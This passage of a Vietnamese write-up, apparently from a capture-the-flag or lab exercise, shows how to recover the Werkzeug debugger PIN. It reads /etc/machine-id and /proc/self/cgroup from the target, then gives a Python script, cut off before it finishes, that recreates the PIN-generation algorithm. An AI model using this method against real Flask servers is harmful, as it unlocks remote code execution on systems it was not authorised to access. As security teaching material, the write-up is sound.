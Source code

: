 6. `machine-id`
- Để lấy `machine-id` ta truy cập vào đường dẫn  */etc/machine-id*: **ca07cc8b33b044adb73f8b86f4c51bf6**
![](./images/Pasted%20image%2020230831204021.png)
7. `cgroup value`
- Để lấy `cgroup value` ta truy cập vào đường dẫn  */proc/self/cgroup*.

![](./images/Pasted%20image%2020230831204210.png)
- Lưu ý ở đây ta chỉ lấy gái trị cuối cùng ngăn cách bởi dấu / vì vậy kêt quả là:  **session-3.scope**
=> từ 6 và 7 ta ghép dược 1 chuối **ca07cc8b33b044adb73f8b86f4c51bf6session-3.scope**
### b. Tái tạo thuật toán gen mã PIN
```python
import itertools
import hashlib
from itertools import chain

def gen_md5(username, modname, appname, flaskapp_path, node_uuid, machine_id):
   h = hashlib.md5()
   gen(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def gen_sha1(username, modname, appname, flaskapp_path, node_uuid, machine_id):
   h = hashlib.sha1()
   gen(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def gen(hasher, username, modname, appname, flaskapp_path, node_uuid, machine_id):
   probably_public_bits = [
		   username,
		   modname,
		   appname,
		   flaskapp_path ]
   private_bits = [
		   node_uuid,
		   machine_id ]

   h = hasher
   for bit in chain(probably_public_bits, private_bits):
	   if not bit:
		   continue
	   if isinstance(bit, str):
		   bit = bit.encode('utf-8')
	   h.update(bit)
   h.update(b'cookiesalt')

   cookie_name = '__wzd' + h.hexdigest()[:20]

   num = None
   if num is None:
	   h.update(b'pinsalt')
	   num = ('%09d' % int(h.hexdigest(), 16))[:9]

```